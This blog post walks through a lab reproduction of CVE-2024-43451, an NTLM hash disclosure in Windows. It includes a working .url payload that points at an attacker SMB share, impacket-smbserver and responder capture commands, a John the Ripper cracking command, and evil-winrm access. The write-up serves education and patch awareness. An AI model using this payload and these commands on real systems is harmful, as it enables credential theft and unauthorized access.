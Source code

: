 ```yaml
---
layout: post
title: "Exploiting CVE-2024-43451 - NTLM Hash Disclosure"
date: 2024-11-28
author: acfirthh
categories: [Vulnerabilities]
tags: [Cybersecurity, Vulnerabilities, NTLM, CVE-2024-43451]
---
```


CVE-2024-43451 is a vulnerability that, when exploited, discloses the NTLM hash of the targeted user to the attacker. It was discovered by ClearSky Cyber Security in June of 2024.

The vulnerability is exploited through URL files containing malicious code and requires minimal interaction, by the target, for it to be exploited.

Interactions needed to exploit the vulnerability:
- A single right-click on the file (all Windows versions).
- Deleting the file (Windows 10/11).
- Dragging the file to another folder (Windows 10/11 and some Windows 7/8/8.1 configurations).

<small>Source: [ClearSky Cyber Security](https://www.clearskysec.com/0d-vulnerability-exploited-in-the_wild/)</small>

A patch for the vulnerability was released by Microsoft on November 12th 2024.

# Exploitation
> Note: This vulnerability reproduction was done in a controlled environment using virtual machines. The vulnerability and methodology shown is STRICTLY for educational and demonstration purposes only!

In this demonstration of exploiting the vulnerability, I setup two target machines. One running Windows 10 Pro and is part of a domain controlled by a DC (Domain Controller), and the other running Windows 10 Home and not part of a domain, but on the same network but a different subnet.

- Attacker machine: 192.168.55.2
- Windows 10 Pro (Domain Connected): 192.168.57.4
- Windows 10 Home: 192.168.56.4

(Both Windows 10 machines did not have the security patch installed.)

## Initial Setup
To exploit this vulnerability, there are two things needed. The payload being one and a way to capture the NTLM hash being the other.

I will show two methods of capturing the NTLM hash. The first one is using `impacket-smbserver` and the second one using `responder`.

Links to download impacket and responder:
- [impacket](https://github.com/fortra/impacket)
- [responder](https://github.com/SpiderLabs/Responder)

### Creating the payload
The payload used in this example is incredibly easy to create, it is simply 4 lines of text.

#### Payload Template:
```
[InternetShortcut]
URL=file://<ATTACKER-IP>/<SHARE>/<FILENAME>
IconIndex=<ICON-TO-USE>
IconFile=<C:\PATH\TO\ICONFILE>
```

#### Breakdown:

`URL` is the URL of the file that the attacker hosts and will be requested by the targets machine when the exploit is run.

`IconIndex` is the index of the icon that is displayed for the payload file. It can be set to look like regular items such as a folder or a text document.

`IconFile` is where the icon will be fetched from.

#### Payload Example:
```
[InternetShortcut]
URL=file://192.168.55.2/Files/LegitemateFile.txt
IconIndex=70
IconFile=C:\Windows\System32\SHELL32.dll
```
The payload is then saved as a file with the extension `.url`.

## Capturing the NTLM Hashes
When targetting the Windows 10 Pro machine, I used impacket's, `impacket-smbserver` to capture the hashes and when targetting the Windows 10 Home machine I used `responder`.

### Impacket Setup
To setup the impacket SMB server I created a directory named 'Files' and created an empty text file named 'LegitemateFile.txt'.

I then ran the command:\
`impacket-smbserver -smb2support Files ./Files`

This command starts an SMB server on the attacker machine, creates a share named "Files", and points the share to a given path (in this example, the directory named 'Files').

I then started a simple Python3 HTTP Server in the directory of my payload that I could use to download the payload onto the target machine using `wget`. In a real-life scenario, the attacker would instead use a method like a spear-phishing attack to get the payload onto specific target's machines.

After the payload was on the target machine, I tested moving the file from one directory to another via drag-and-drop as well as opening the file by double-clicking it. Both interactions with the file resulted in it being run and the NTLM hash being sent to the attacker's machine.

![Impacket SMB Server NTLM Hash Capture](/assets/images/Exploiting-CVE-2024-43451-Images/impacket-smbserver_NTLM_Capture.png)


### Responder Setup
To setup `responder` I did not have to do anything except from run the command:\
`sudo responder -I eth0 -wd`.

Again, I started a simple Python3 HTTP Server in the directory of my payload to transfer it onto the Windows 10 Home target machine, using `wget`.

Once the payload was on the target machine, instead of running the file by double-clicking it or moving the file between directories, I simply right-clicked it. Instead of bringing up the file options menu, it did nothing, but it did infact run the payload as on the attacker machine there was an NTLM hash captured by `responder` for the user 'jdoe'.

![Responder NTLM Hash Capture](/assets/images/Exploiting-CVE-2024-43451-Images/responder_NTLM_capture.png)

## What Can An Attacker Do Now?
Now the attacker has the NTLM hash of their targetted user, they can do a couple of things. One of them is to attempt to abuse servics that support Passing-the-Hash, this can be used to gain access to a machine and extract information about the system or other users.

Another thing the attacker could do, is attempt to crack the hash to get the target's plaintext password. If the target has a particularly weak password it can be cracked very quickly using tools like `JohnTheRipper` and `Hashcat`.

### Cracking An NTLM Hash with JohnTheRipper
All the attacker has to do is copy the captured hash into a file and then run the command:\
`john jdoe.hash --wordlist=/path/to/password.list`

![Cracking an NTLM Hash with JohnTheRipper](/assets/images/Exploiting-CVE-2024-43451-Images/Crack_NTLM_hash_with_jtr.png)

### Gaining Access Using Evil-WinRM
After cracking the hash to get the target's password, the attacker could use a tool like `evil-winrm` to gain access to the target machine using the gathered username and password.

![Gaining Access using Evil-WinRM](/assets/images/Exploiting-CVE-2024-43451-Images/evil-winrm_jdoe_login.png)

This would only work if the target machine had the `WinRM` service running and exposed. WinRM is supposed to be an internal service used by network administrators, however a simple search on `Shodan` shows over 2 MILLION machines with WinRM exposed! This just goes to show how dangerous this vulnerability could be.

# Final Notes
I strongly urge you to go and read the [blog post](https://www.clearskysec.com/0d-vulnerability-exploited-in-the_wild/) made by the ClearSky Cyber Security Team where they discuss the background of the vulnerability and how it was discovered. I also suggest you go update your Windows machines!

Thank you for taking the time to read this.

#### Sources:
- [ClearSky Cyber Security Team](https://www.clearskysec.com/0d-vulnerability-exploited-in-the_wild/)
- [NIST National Vulnerability Database](https://nvd.nist.gov/vuln/detail/CVE-2024-43451)
- [Kaspersky](https://www.kaspersky.com/blog/2024-november-patch-tuesday/52604/)
- [CVEDetails](https://www.cvedetails.com/cve/CVE-2024-43451/)